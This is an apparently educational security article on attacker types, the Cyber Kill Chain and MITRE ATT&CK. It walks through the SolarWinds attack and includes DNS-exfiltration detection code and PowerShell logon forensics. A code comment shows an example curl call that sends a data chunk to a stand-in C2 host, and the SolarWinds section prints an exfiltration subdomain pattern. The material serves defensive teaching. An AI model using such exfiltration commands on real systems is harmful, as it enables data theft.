

⚡ TL;DR - Real attackers do not try one clever trick and
give up. They follow a systematic multi-stage process:
recon (find the target, map the attack surface), initial
access (exploit one vulnerability to get a foothold),
establish persistence (ensure they survive reboots and
detection), lateral movement (spread to higher-value
systems from the initial foothold), escalate privileges
(gain admin/root if they do not have it already), then
achieve their objective (exfiltrate data, deploy ransomware,
sabotage operations). Most attacks are caught in early
stages IF detection is configured. Most organizations
have no detection until the final stage (exfiltration
or ransomware). The kill chain model means: disrupting
the attacker at ANY stage stops the attack. Defense
does not require being perfect - it requires detecting
and responding at one stage before the attacker reaches
their objective.

---

| #003 | Category: Security | Difficulty: ★☆☆ |
|:---|:---|:---|
| **Depends on:** | The Security Problem, CIA Triad | |
| **Used by:** | OWASP Top 10, Defense in Depth, STRIDE Threat Modeling | |
| **Related:** | Security Problem, CIA Triad, OWASP, STRIDE, Pentest Methodology | |

---

### 🔥 The Problem This Solves

**WORLD WITHOUT ATTACKER MINDSET:**
A security team deploys: a WAF (web application firewall),
an intrusion detection system (IDS), endpoint antivirus,
and a SIEM. They feel protected. An attacker gets initial
access through a phishing email (not a web vulnerability,
bypasses the WAF). Establishes persistence via a scheduled
task (no signature for the antivirus). Moves laterally via
SMB shares with valid credentials (legitimate traffic, IDS
does not alert). Exfiltrates data over HTTPS to a cloud
storage bucket (looks like normal HTTPS traffic). The
security team discovers the breach 87 days later (industry
average dwell time) when the attacker's C2 domain is
flagged by a threat intelligence feed. Without understanding
how attackers actually work, security investments target
the wrong threats. Understanding the kill chain reveals:
the weakest link was phishing (email security), not the
web application.

---

### 📘 Textbook Definition

**Threat Actor:** A human (or group) that intentionally
causes harm to information systems. Categories:
- **Script kiddies:** Low skill, use existing tools (Metasploit,
  Kali Linux tutorials), opportunistic, no specific target.
- **Hacktivists:** Ideologically motivated (Anonymous style),
  usually DDoS or website defacement, public-facing targets.
- **Criminal groups:** Financially motivated, organized, often
  use ransomware-as-a-service (RaaS) or sell access.
- **Nation-states:** Highly sophisticated, patient, long-term
  objectives (espionage, sabotage, intelligence collection).
  APTs (Advanced Persistent Threats): Lazarus Group (North
  Korea), APT29/Cozy Bear (Russia), APT41 (China).

**Cyber Kill Chain (Lockheed Martin, 2011):**
7 stages from initial contact to mission completion:
Reconnaissance → Weaponization → Delivery → Exploitation
→ Installation → Command & Control (C2) → Actions on Objectives.

**MITRE ATT&CK Framework:** A knowledge base of adversary
tactics, techniques, and procedures (TTPs) observed in
real attacks. 14 Tactics (the "why") with hundreds of
Techniques (the "how"). Used for: threat modeling, detection
rule development, incident response.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Attackers follow a multi-stage process (recon → access →
persist → move laterally → escalate → objective), and
defense means detecting and disrupting at ANY stage -
not preventing every possible initial access.

**One analogy:**
> A burglar casing a neighborhood: first they drive by
> (reconnaissance), note which houses have no alarm signs
> (attack surface mapping). Pick one house, try the back door
> (delivery/exploitation). Once inside, copy the house key
> (persistence). Go through every room (lateral movement).
> Find the safe (privilege escalation to access the vault).
> Take the valuables (actions on objectives). At any point -
> a neighbor sees them (detection) or they trigger a sensor
> (automated detection) - the attack is disrupted. Defense
> does not require an impenetrable house. It requires detection.

---

### 🔩 First Principles Explanation

**Why attackers are systematic, not random:**

```
Analogy to economics: attackers are rational economic actors.
They maximize return on investment:
  Return = value of target
  Cost = time + tools + risk of detection/prosecution

LOW-SKILL attacker:
  Available tools: off-the-shelf exploits (Metasploit modules)
  Strategy: scan millions of IP addresses for known vulns
  Target: whoever has not patched a 2-year-old CVE
  Automation: most attack traffic is automated scanning
  Success metric: any system they can get into
  Minimum ROI: deploy ransomware (predictable revenue)

HIGH-SKILL attacker (APT/Nation-State):
  Available tools: zero-days ($500k-$2M on market), custom malware
  Strategy: specific target, months of reconnaissance
  Target: defense contractors, financial infrastructure, elections
  Automation: target-specific, manual lateral movement
  Success metric: persistent access for years
  Minimum ROI: strategic intelligence, sabotage capability

IMPLICATION FOR DEFENSE:
  Most attacks (>95%) are low-skill, automated opportunists.
  Patching known CVEs and basic hygiene stops most attacks.
  Nation-state attacks on most organizations are extremely unlikely.
  Spend 90% of security budget on: patching, MFA, phishing
    resistance, network segmentation, endpoint detection.
  Spend 10% on advanced threat detection (for the 5% who get
    past basic controls).
```

---

### 🧪 Thought Experiment

**SCENARIO: Trace the SolarWinds attack through the kill chain**

```
SolarWinds SUNBURST (2020, attributed to Russia/APT29):

STAGE 1 - RECONNAISSANCE:
  Target: SolarWinds (software vendor with 18,000 customers)
  Insight: compromise the VENDOR, not each individual target.
  One successful compromise = access to all 18,000 customers.
  (Supply chain attack: attack the trust relationship)

STAGE 2 - WEAPONIZATION:
  Develop custom malware: SUNBURST.
  Inserted into SolarWinds Orion build pipeline.
  Malware signed with SolarWinds' legitimate certificate.
  (Bypasses code signing verification - it IS legitimately signed)

STAGE 3 - DELIVERY:
  SolarWinds ships Orion update 2020.2 with SUNBURST embedded.
  18,000 organizations auto-update (trusting the vendor).
  No phishing, no exploit of their perimeter - they invited it in.

STAGE 4 - EXPLOITATION:
  SUNBURST activates after a 12-14 day dormancy period.
  Dormancy: evades sandboxes (sandbox analysis is time-limited).
  Checks: is this a test environment? (exits if it detects AV sandbox)

STAGE 5 - INSTALLATION (C2):
  SUNBURST establishes C2 channel using DNS queries.
  Queries appear to be normal Orion telemetry to security tools.
  Data exfiltrated in DNS subdomains (avr.{encoded-data}.orionsunrise.net)
  (Looks like normal SolarWinds traffic → bypasses DLP and firewalls)

STAGE 6 - ACTIONS:
  Attackers manually identified high-value targets from 18,000.
  ~100 organizations received targeted follow-up intrusion.
  Goal: long-term persistent access to US government agencies.

DETECTION: FireEye discovered their own tools were stolen.
  Traced the attack vector to SolarWinds Orion.
  Dwell time: ~9-14 months.

LESSONS FOR DEFENSE:
  - Supply chain: verify software signatures AND build pipelines
  - Privileged access: Orion was too privileged (reduce blast radius)
  - Network segmentation: Orion servers should not reach C2 servers
  - Anomaly detection: 12-14 day dormancy bypasses most detection
  - Zero trust: even internal software updates need validation
```

---

### 🧠 Mental Model / Analogy

> The kill chain is like a lock combination. An attacker
> needs to get every stage right in sequence. A defender only
> needs to detect the attacker at ONE stage. This is why
> defense in depth (multiple detection layers) is effective:
> if you miss them in reconnaissance (not logged), catch them
> at delivery (email security blocks phishing), if they get
> through delivery, catch them at installation (EDR detects
> malware execution), if they survive installation, catch them
> at C2 (network anomaly detection). Each layer is an
> independent chance to stop the attack.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Attackers follow a multi-step process to break into systems.
They do research first, then find a way in, then spread to
other systems, then steal data or cause damage. Security
means detecting them at any step before they cause harm.

**Level 2 - How to use it (junior developer):**
As a developer, you are most relevant at preventing DELIVERY
and EXPLOITATION stages: input validation prevents many
exploits, don't use vulnerable libraries (prevents exploitation
of known CVEs), implement CSP to prevent XSS. The attacker's
delivery stage targets YOUR code's vulnerabilities. Writing
secure code directly disrupts the kill chain.

**Level 3 - How it works (mid-level engineer):**
The MITRE ATT&CK framework documents specific techniques
at each stage. For web applications: Initial Access techniques
include Phishing (T1566), Exploit Public-Facing Application
(T1190), Supply Chain Compromise (T1195). Persistence
includes Web Shell (T1505.003), Scheduled Task (T1053.005).
Lateral Movement includes Remote Services (T1021). Using
ATT&CK: map your detections to ATT&CK techniques to find
coverage gaps.

**Level 4 - Why it was designed this way (senior/staff):**
The kill chain model was developed by Lockheed Martin for
analyzing nation-state attacks against their own supply
chain (2011). It shifted the industry from "prevent all
intrusions" (impossible) to "disrupt attacks at some
stage" (achievable). The paradigm shift: instead of asking
"how do we prevent attackers from getting in?" (impossible
for determined attackers), ask "how do we detect them after
they get in, before they achieve their objective?" This is
the foundation of: EDR (endpoint detection after install),
SIEM (behavioral anomaly detection after lateral movement),
DLP (data loss prevention at exfiltration stage).

**Level 5 - Mastery (distinguished engineer):**
Advanced threat actors use "living off the land" techniques:
use tools already present on the system (PowerShell, WMI,
certutil) rather than deploying custom malware. This bypasses
most AV/EDR detection (no malware signature). Detection
requires behavioral analytics: certutil downloading PE files
from the internet is anomalous, even if certutil itself is
legitimate. This is why modern EDR uses ML-based behavioral
detection rather than signature matching. The APT playbook:
get in via one legitimate path, use only legitimate tools
to move laterally, exfiltrate slowly over legitimate protocols
(HTTPS, DNS). The defender's response: zero trust (every
request authenticated, every connection inspected) and
behavior-based detection (ML anomaly detection on all
internal traffic).

---

### ⚙️ How It Works (Mechanism)

**The Cyber Kill Chain with detection opportunities:**

```
Stage 1: RECONNAISSANCE
  Attacker: scans target, searches LinkedIn, OSINT
  Defender detection: honeypots, reputation blacklists for
    known scanning IPs, alerting on recon patterns in logs

Stage 2: WEAPONIZATION
  Attacker: builds exploit payload (custom or off-the-shelf)
  Defender: cannot detect (happens off your infrastructure)

Stage 3: DELIVERY
  Attacker: phishing email, malicious link, supply chain
  Defender detection: email security (anti-phishing),
    WAF (malicious payloads), SCA (supply chain scanning)

Stage 4: EXPLOITATION
  Attacker: code execution via vulnerability
  Defender detection: WAF blocks known exploit patterns,
    SAST/DAST finds vulnerabilities before deployment,
    patching eliminates known CVE targets

Stage 5: INSTALLATION
  Attacker: deploys persistence mechanism, C2 agent
  Defender detection: EDR (Endpoint Detection and Response)
    detects anomalous process execution and file creation

Stage 6: C2 (Command and Control)
  Attacker: establishes encrypted channel back to attacker
  Defender detection: DNS anomaly detection, network
    traffic analysis, egress filtering, UEBA

Stage 7: ACTIONS ON OBJECTIVES
  Attacker: data exfiltration, ransomware, sabotage
  Defender detection: DLP (data loss prevention),
    SIEM anomaly alerts, honeytokens in sensitive data
```



---

### 💻 Code Example

**Recognition: Detecting C2 via anomalous DNS patterns**

```python
# BAD: No monitoring on internal DNS queries.
# Attacker exfiltrates data via DNS (T1048.003):
# curl "https://a29fk3dxdata_chunk_1xdomain.c2-server.com"
# This looks like a legitimate DNS query to security tools.

# GOOD: DNS exfiltration detection pattern.
# Detect: unusually long DNS subdomains, high query rate to
# unknown domains, base64-encoded looking subdomains.

import re
from collections import defaultdict

def analyze_dns_queries(dns_log_entries):
    """
    Detect potential DNS exfiltration (ATT&CK T1048.003).
    Flags: unusual subdomain length, encoded-looking subdomains,
    high-volume queries to single external domain.
    """
    domain_query_count = defaultdict(int)
    suspicious = []

    for entry in dns_log_entries:
        domain = entry['query']
        parts = domain.split('.')
        subdomain = '.'.join(parts[:-2])  # strip TLD + apex

        # INDICATOR 1: Very long subdomain (data encoded in DNS name)
        if len(subdomain) > 50:
            suspicious.append({
                'reason': 'long_subdomain',
                'domain': domain,
                'length': len(subdomain)
            })

        # INDICATOR 2: Base64-looking subdomain
        # Attackers encode data as base64 in DNS labels
        if re.match(r'^[A-Za-z0-9+/=]{20,}$', subdomain):
            suspicious.append({
                'reason': 'encoded_subdomain',
                'domain': domain
            })

        # INDICATOR 3: High query rate to same apex domain
        apex = '.'.join(parts[-2:])
        domain_query_count[apex] += 1
        if domain_query_count[apex] == 100:  # threshold
            suspicious.append({
                'reason': 'high_volume',
                'apex_domain': apex,
                'count': domain_query_count[apex]
            })

    return suspicious
```

---

### ⚖️ Comparison Table

| Actor Type | Skill | Motivation | Methods | Dwell Time | Target |
|:---|:---|:---|:---|:---|:---|
| **Script kiddy** | Low | Fun/curiosity | Public exploits, Metasploit | Hours-days | Anyone vulnerable |
| **Hacktivist** | Medium | Ideology | DDoS, defacement, leaks | Days-weeks | Public-facing targets |
| **Criminal group** | Medium-High | Financial | Phishing, RaaS, access brokering | Days-weeks | Orgs with money/data |
| **Nation-state APT** | Very high | Strategic | Zero-days, supply chain, custom malware | Months-years | Government, critical infra |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| Attackers are genius hackers who defeat all security | Most attacks use known, automated exploitation of unpatched vulnerabilities. A 2023 Verizon DBIR found >80% of breaches used known techniques against known vulnerabilities. Keeping systems patched and configured correctly stops the vast majority of attacks. Nation-state zero-days are real but target <0.1% of organizations. |
| Once an attacker is "in," the breach is inevitable | The kill chain model shows: getting initial access is only stage 3 of 7. Attackers still need to persist, move laterally, escalate privileges, and reach their objective. Each stage is a detection opportunity. Organizations with good EDR and SIEM catch attackers between stages 5-7 (well before objective achieved), limiting damage significantly. |
| Attackers target us specifically (we are not a target) | >95% of attacks are automated opportunistic scanning. Attackers do not target YOU specifically - they target any system running vulnerable software. An unpatched WordPress instance anywhere on the internet will be compromised within hours of a new public exploit. Being "not interesting" provides no protection against automated attacks. |

---

### 🚨 Failure Modes & Diagnosis

**Failure: Detection gap during lateral movement**

**Symptom:** Attacker has been inside the network for 47 days
before detection. Initial access was via phishing (email
compromise). Attacker moved to 12 internal servers using
valid credentials stolen from the email account.

**Why lateral movement was undetected:**
- Attacker used legitimate Windows admin tools (PSExec, WMI)
- Credentials were valid (no auth failure alerts triggered)
- No East-West traffic inspection (only perimeter monitoring)
- No behavioral baseline (could not detect "unusual" logins)

**Detection commands (post-incident forensics):**

```powershell
# Find unusual logon events (Event ID 4624 Type 3 = network logon)
# Look for: service accounts logging in interactively,
# accounts logging into many machines in short time
Get-WinEvent -FilterHashtable @{
    LogName='Security'
    Id=4624
    StartTime=(Get-Date).AddDays(-60)
} | Where-Object {
    $_.Properties[8].Value -eq 3  # Logon Type 3 (network)
} | Group-Object {
    $_.Properties[5].Value  # Account Name
} | Where-Object {Count -gt 10} | Sort-Object Count -Descending
```

**Fix:** Deploy network traffic analysis (Zeek/RITA) that
detects: single source IP authenticating to > N hosts/hour,
service accounts used interactively, unusual protocol
on internal ports. Establish behavioral baselines with UEBA
(User and Entity Behavior Analytics).

---

### 🔗 Related Keywords

**Prerequisites:**
- `The Security Problem` - why defending against attackers is hard
- `CIA Triad` - what attackers are trying to violate

**Builds On This:**
- `OWASP Top 10 Overview` - specific web attack techniques
- `STRIDE Threat Modeling` - structuring threat actor analysis
- `Security Testing in CI/CD` - detecting vulnerabilities before attackers do

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ KILL CHAIN   │ Recon → Weaponize → Deliver → Exploit →  │
│              │ Install → C2 → Actions                    │
├──────────────┼───────────────────────────────────────────┤
│ ACTOR TYPES  │ Script kiddy | Hacktivist |               │
│              │ Criminal | Nation-state APT               │
├──────────────┼───────────────────────────────────────────┤
│ KEY INSIGHT  │ 95% attacks = automated + opportunistic   │
│              │ Basic hygiene stops most attacks          │
├──────────────┼───────────────────────────────────────────┤
│ DWELL TIME   │ Industry avg: 207 days before detection   │
│              │ (Mandiant 2023: 10 days median w/ EDR)    │
├──────────────┼───────────────────────────────────────────┤
│ MITRE ATT&CK │ 14 Tactics, 196 Techniques, real TTPs    │
│              │ https://attack.mitre.org/                 │
├──────────────┼───────────────────────────────────────────┤
│ ONE-LINER    │ "Disrupt at ANY stage - don't need to    │
│              │  prevent every initial access attempt"   │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Defense only needs to succeed at one stage; attack needs
to succeed at every stage." This asymmetry is why defense
in depth works: multiple independent detection layers
multiply the probability that an attacker is caught. The
same principle applies to system reliability (circuit
breakers + retries + fallbacks: each layer independently
handles failures) and data pipelines (idempotency checks +
schema validation + downstream alerts: each layer catches
corruption). Multi-layer detection is fundamentally more
robust than single-layer prevention.

---

### 💡 The Surprising Truth

Most organizations invest 90% of their security budget in
prevention (firewalls, WAF, endpoint antivirus) and 10%
in detection and response. Attackers know this. Their
strategy: find the one gap in prevention (there is always
one), then exploit it slowly enough that the minimal
detection capability does not trigger. The security
industry shift: Crowdstrike, Sentinel One, Microsoft
Defender for Endpoint are EDR/XDR tools (detection and
response), not prevention tools. The industry has accepted
that prevention is insufficient and shifted to "assume
breach" (attacker WILL get in; detect and evict them before
they achieve their objective). The 2023 Mandiant M-Trends
report: median attacker dwell time with EDR deployed is
10 days. Without EDR: 207 days. Detection reduces damage
by 95% in operational time. Invest in detection.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **TRACE** a real attack (SolarWinds, Target POS breach)
   through the kill chain stages, identifying where detection
   would have disrupted the attack.
2. **CATEGORIZE** attack actors by skill and motivation,
   and explain what security controls are effective against
   each type.
3. **IDENTIFY** MITRE ATT&CK techniques for initial access
   (T1190 Exploit Public-Facing Application, T1566 Phishing)
   and their detection strategies.
4. **EXPLAIN** why "living off the land" techniques defeat
   signature-based detection and what behavioral detection
   looks for instead.

---

### 🎯 Interview Deep-Dive

**Q: Walk me through how a sophisticated attacker would
compromise a web application and what you would do to
detect and stop them at each stage.**

*Why they ask:* Tests depth of adversarial thinking and
whether candidate can connect attacker techniques to
defensive controls.

*Strong answer includes:*
- Stage 1 (Recon): attacker uses Shodan, DNS enumeration,
  LinkedIn for tech stack info. Defense: minimize public
  information (custom error pages, no version headers,
  robots.txt that does not reveal internal structure).
- Stage 2 (Delivery/Exploitation): attacker tries known CVEs
  for your detected tech stack, then attempts SQL injection,
  XSS, SSRF via automated scanner (Burp Suite Pro, OWASP ZAP).
  Defense: WAF blocks known patterns, SAST found vulns before
  deployment, patching closed known CVE windows.
- Stage 3 (Post-exploitation): attacker with web shell
  tries to pivot to internal network. Defense: container
  isolation (web app cannot reach internal services), least
  privilege (web server user cannot run OS commands), network
  segmentation (web tier has no route to database).
- Stage 4 (Detection): all the above failed to stop them.
  EDR detects anomalous process spawning from web server
  process. SIEM correlates: web server making outbound
  connections + unusual database queries + new scheduled
  task = kill chain indicators. Automated response: isolate
  host, alert IR team, preserve evidence.